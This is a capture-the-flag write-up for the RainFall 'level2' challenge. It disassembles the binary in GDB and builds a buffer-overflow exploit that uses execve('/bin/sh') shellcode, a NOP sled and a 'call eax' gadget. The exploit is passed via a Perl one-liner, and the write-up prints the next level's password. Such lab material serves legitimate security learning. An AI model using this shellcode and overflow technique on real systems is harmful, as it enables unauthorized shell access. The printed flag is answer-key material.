 # level2

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

We check the functions:

```gdb
gdb-peda$ info function
All defined functions:

Non-debugging symbols:
0x08048358  _init
0x080483a0  printf
0x080483a0  printf@plt
0x080483b0  fflush
0x080483b0  fflush@plt
0x080483c0  gets
0x080483c0  gets@plt
0x080483d0  _exit
0x080483d0  _exit@plt
0x080483e0  strdup
0x080483e0  strdup@plt
0x080483f0  puts
0x080483f0  puts@plt
0x08048400  __gmon_start__
0x08048400  __gmon_start__@plt
0x08048410  __libc_start_main
0x08048410  __libc_start_main@plt
0x08048420  _start
0x08048450  __do_global_dtors_aux
0x080484b0  frame_dummy
0x080484d4  p
0x0804853f  main
0x08048550  __libc_csu_init
0x080485c0  __libc_csu_fini
0x080485c2  __i686.get_pc_thunk.bx
0x080485d0  __do_global_ctors_aux
0x080485fc  _fini
```

Cool! Let's take a look at `main`:

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   ebp
   0x08048540 <+1>:     mov    ebp,esp
   0x08048542 <+3>:     and    esp,0xfffffff0
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
```

It calls function `<p>`. *Bueno*.

```gdb
gdb-peda$ disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   ebp
   0x080484d5 <+1>:     mov    ebp,esp
   0x080484d7 <+3>:     sub    esp,0x68
   0x080484da <+6>:     mov    eax,ds:0x8049860
   0x080484df <+11>:    mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>       ; flush the stdout
   0x080484e7 <+19>:    lea    eax,[ebp-0x4c]               ; eax = ebp - 76 bytes
   0x080484ea <+22>:    mov    DWORD PTR [esp],eax          ; *esp = eax
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>         ; call `gets`
   0x080484f2 <+30>:    mov    eax,DWORD PTR [ebp+0x4]      ; put eip in eax
   0x080484f5 <+33>:    mov    DWORD PTR [ebp-0xc],eax      ; put eip at ebp-0xc
   0x080484f8 <+36>:    mov    eax,DWORD PTR [ebp-0xc]      ; move eip in eax again
   0x080484fb <+39>:    and    eax,0xb0000000               ; eip & 0xb0000000 is a filter
   0x08048500 <+44>:    cmp    eax,0xb0000000               ; ss eax != 0xb0000000?
   0x08048505 <+49>:    jne    0x8048527 <p+83>             ; yes: jump to <p+83>
   0x08048507 <+51>:    mov    eax,0x8048620
   0x0804850c <+56>:    mov    edx,DWORD PTR [ebp-0xc]      ; edx = eip (formerly at ebp-0xc)
   0x0804850f <+59>:    mov    DWORD PTR [esp+0x4],edx      ; put eip on stack at esp+0x4
   0x08048513 <+63>:    mov    DWORD PTR [esp],eax          ; put eax on stack at esp
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>       ; call printf with parameters put on stack
   0x0804851b <+71>:    mov    DWORD PTR [esp],0x1          ; put 0x1 on stack at esp
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>        ; call exit, that is to say exit(1)
   0x08048527 <+83>:    lea    eax,[ebp-0x4c]
   0x0804852a <+86>:    mov    DWORD PTR [esp],eax
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    eax,[ebp-0x4c]
   0x08048535 <+97>:    mov    DWORD PTR [esp],eax
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```

## Exploit

After analysis, we know that we can't use a stack address in `eip`. Hopefully, `strdup` allows us to go on the heap
where our string will be duplicated. Like in level1, we use this [online
tool](http://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) to find the offset: 80.

Here is how it works:
1. The buffer will contain a shellcode to spawn a new shell.
2. But, this buffer is both on the stack and the heap because of `strdup`. It returns the string pointer into `eax`.
3. The filter (`eax & 0xb0000000`) avoid us to use stack addresses. We need to use the one on the heap. So we are going
   to use a `call eax` instruction to jump to our buffer content (with the shell-code).

So let's do it! First, design the shell code. 

```
\xeb\x16\x31\xc0\x5b\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
```

is equivalent to:

```C
excve("/bin/sh", ["/bin/sh"], NULL);
```

Now, we need to look for a `call eax` instruction to get its address:

```console
level2@RainFall:~$ objdump -d -M intel level2 | grep "call   eax"
 80484cf:   ff d0                call   eax
 80485eb:   ff d0                call   eax
```

So now we have almost everything. We just need to add a `nop` sled and a `jump` instruction to avoid an infinite loop
between the beginning of the buffer and the `call eax`. Let's dump it into a file:

```console
level2@RainFall:~$ perl -e 'print "\x90"x62 . "\xeb\x14" . "\x90"x16 . "\xcf\x84\x04\x08" . "\x90"x20 . "\xeb\x16\x31\xc0\x5b\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"' > /tmp/level2
```

And you run:

```console
level2@RainFall:~$ cat /tmp/level2 - | ./level2
...
[hit return, some garbage display]
...
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
